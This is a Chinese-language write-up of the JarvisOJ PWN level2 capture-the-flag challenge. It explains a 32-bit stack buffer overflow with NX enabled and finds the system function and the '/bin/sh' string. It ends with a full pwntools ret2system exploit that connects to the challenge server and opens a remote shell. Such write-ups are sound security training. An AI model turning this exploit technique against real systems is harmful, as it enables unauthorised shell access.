







# JarvisOJ-PWN-Level2

## 0x01 文件检查
```shell
file level2 
```



32位文件

```shell
checksec level2
```



开了NX保护
不过系统好像提供了shell脚本

## 0x02 反汇编



main函数调用了vulnerable_function函数


开辟的缓冲区大小是0x88h,再加上ebp 的0x4h就跳到了返回地址了，然后就是去找system函数的地址,无论是main函数还是vulnerable_function函数都是通过call _system的方式调用system



system的函数有了，然后就是调用的参数解释器了_bin_sh，shift+F12搜一下

地址是0x0804A024
当然也可以用pwntools直接从elf中提取
```python
from pwn import *
elf = ELF('./level2')
sys_addr = elf.symbols['system']
sh_addr = elf.search('/bin/sh').next()
```

栈的结构图


那么payload就是
```
payload = "a"*(0x88+0x4)+p32(0x0804849E)+p32(0x0804A024)
```


最后的全代码就是
```
*from*pwn *import**

conn = remote(*'pwn2.jarvisoj.com'*,9878)
conn.recvline()
payload = *"a"**(0x88+0x4)+p32(0x0804849E)+p32(0x0804A024)

conn.send(payload)

conn.interactive()


```


